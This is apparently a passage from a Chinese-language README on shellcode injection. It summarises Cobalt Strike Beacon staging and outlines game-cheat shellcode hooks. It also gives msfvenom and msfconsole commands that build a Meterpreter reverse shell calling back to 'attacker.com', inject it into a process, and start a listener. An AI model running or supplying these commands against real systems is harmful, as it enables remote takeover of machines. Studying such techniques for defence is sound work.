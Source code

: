 ## 实战案例

### Cobalt Strike Beacon

**流程**:
```
1. Stage 0: 小型 stager shellcode (200 bytes)
    ↓ HTTP GET
2. Stage 1: 完整 Beacon DLL (100KB+)
    ↓ 反射式加载
3. Beacon 运行，建立 C2 连接
```

**注入方法**: Classic Shellcode Injection + 反射式 DLL

### Meterpreter

```bash
# 生成 reverse shell shellcode
msfvenom -p windows/x64/meterpreter/reverse_tcp \
    LHOST=attacker.com LPORT=4444 \
    -f raw -o meterpreter.bin

# 注入到目标进程
shellcode_injection.exe 1234 meterpreter.bin

# Metasploit 监听
msfconsole -q -x "use exploit/multi/handler; \
    set payload windows/x64/meterpreter/reverse_tcp; \
    set LHOST 0.0.0.0; set LPORT 4444; run"
```

### 游戏外挂

**注入 ESP/Aimbot shellcode**:
```
1. 找到游戏进程
2. 注入 hook shellcode
3. Shellcode hook DirectX/OpenGL 函数
4. 绘制 ESP 框
```

## 相关技术

- **[DLL Injection](../12-dll-injection/)** - 注入 DLL 而不是 shellcode
- **[Reflective DLL Injection](../14-reflective-dll/)** - 手动映射 DLL 到内存
- **[Thread Hijacking]** - 劫持现有线程执行 shellcode
- **[APC Injection]** - 使用 QueueUserAPC

## Credits

- **plackyhacker** - Shellcode-Injection-Techniques 项目作者
- **Metasploit Framework** - msfvenom shellcode 生成器
